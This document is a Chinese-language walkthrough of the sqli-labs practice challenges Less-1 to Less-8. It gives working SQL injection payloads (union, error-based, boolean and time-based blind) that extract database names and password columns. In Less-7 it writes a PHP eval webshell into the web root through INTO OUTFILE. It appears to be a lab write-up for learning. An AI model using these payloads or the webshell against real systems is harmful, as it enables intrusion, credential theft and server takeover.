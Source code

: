 首先熟悉基本的sql注入流程
[见](SQL.emind)

# less-1
传入参数id,单引号闭合
?id=-1' union select 1,2,3%23


```
id=-1' union select 1,user(),group_concat(schema_name) from information_schema.schemata%23
```
![](vx_images/141597126775127.png)
```
-1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()%23
```
![](vx_images/168618464832305.png)
```
-1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name=users %23
```
![](vx_images/168877085184800.png)
```
id=-1' union select 1,database(),group_concat(password) from security.users %23
```
![](vx_images/374017695725825.png)






# less-2
id=1 and 1=2测试为数字型注入
?id=1 order by 3%23列数为3
.......
```
-1 union select 1,database(),group_concat(password) from security.users %23
```
![](vx_images/388483263440901.png)


# less-3
测试1'
![](vx_images/34493657757787.png)
原句应该为select * from .. where ($id)
报错处发现),那么需要闭合)
id=-1') order by 4 %23
```
-1') union select 1,database(),group_concat(password) from security.users%23
```

![](vx_images/534905055505089.png)
# less-4
测试1'
没有报错
1"报错
![](vx_images/347764632929433.png)
试试1") %23闭合
?id=1") order by 4 %23 成功

```
-1") union select 1,database(),group_concat(password) from security.users%23
```

![](vx_images/330172219310475.png)
# less-5
![](vx_images/498836357486114.png)
发现只会回显这个,需要盲注了时间,bool都可以
先用bool盲注
先查看一下版本号
1' and** left**(version,1)=5 %23
![](vx_images/537023803399976.png)
说明第一位是正确的

看一下数据库长度
1' and length(database())=8 %23
长度为8时正确
![](vx_images/487035231041101.png)

猜数据库第一位
1' and left(database(),1)>'a' %23
数据库为security()
![](vx_images/287493521601327.png)
若是left被禁用还可以用 **substr()和ascii()**尝试,下面用来查表
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23
查第二个字母改变substr(....,2,1)就可以了
若是逗号被过滤,可以使用limit 1 offset 0和substr from 1 for 1

最终查到user表,下面再用正则regexp获取列
1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp % 27^us[a-z]' limit 0,1)--+
上述为查找user表下是否有us**的列

这里也可以用报错注入
```
1' and extractvalue(1,concat(0x7e,(select password from security.users limit 0,1),0x7e))%23
```
![](vx_images/18855944550914.png)


# less-6
id=1'
没有任何报错信息
id=1"报错,用"闭合
直接用报错注入
```
1" and updatexml(1,concat(0x7e,(select group_concat(password) from security.users),0x7e),1)%23
```
![](vx_images/222914682443877.png)

# less-7

查看源码闭合方式为'))
![](vx_images/409261585527016.png)
id=1'))%23
![](vx_images/253142213750899.png)
outfile想到写文件
my.ini添加权限配置
```
secure_file_priv="/"
```
写文件前提:
1.知道路径
2.有写权限
3.能够使用union查询
文件路径:D:\phpstudy_pro\WWW\sqli
写入一句话木马
```
1')) union select 1,2,'<?php eval($_POST["x"]);?>' into outfile "D:/phpstudy_pro/WWW/sqli/Less-7/test.php" %23
```
蚁剑连接
![](vx_images/280384966193527.png)

# less-8
id=1
正常显示
![](vx_images/265735844864834.png)
id=1',信息消失
id=1'%23闭合,显示正常
可以尝试bool和时间盲注
源码:
![](vx_images/135493985817642.png)
用时间盲注:
```
1' and if(1=1,sleep(5),1)%23
```
发现网页加载时间变长,说明可行
首先判断当前数据库长度(数据库为security)
```
1' and if(length(database())=8,sleep(3),1)%23
```
爆库
```
1' and if(substr(database(),1,1)='s',sleep(3),1)%23
```
这里可以结合brupsuit的inruder模块,注意线程需调低
```
1' and if(substr(database(),1,1)='$s%',sleep(3),1)%23
```
报表
```
1' and if(substr((select table_name from information_schema.tables where table_schema=database() limit 2,1),1,1)='u',sleep(3),1)%23
```
爆字段
```
1' and if(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 1,1),1,1)='u',sleep(3),1)%23
```
最好限制范围,以免查询到其他库中的表
